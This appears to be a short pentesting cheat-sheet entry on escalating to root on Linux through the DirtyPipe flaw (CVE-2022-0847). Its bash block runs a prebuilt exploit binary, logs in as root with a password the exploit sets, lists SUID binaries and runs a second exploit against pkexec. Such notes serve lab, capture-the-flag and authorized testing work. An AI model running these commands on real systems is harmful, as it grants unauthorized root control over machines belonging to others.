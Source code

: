 
##  DirtyPipe - CVE-2022-0847

`https://docs.h4rithd.com/linux/privilageesc-linux#id-06.9-dirtypipe-cve-2022-0847`
https://docs.h4rithd.com/linux/privilageesc-linux#id-06.9-dirtypipe-cve-2022-0847

```bash
./dpipe-root
su root ## Password is h4rithd

## find SUID Binary
find / -perm -4000 -ls 2>/dev/null
## Execute it as /usr/bin/pkexec
./dpipe-suid  /usr/bin/pkexec
```
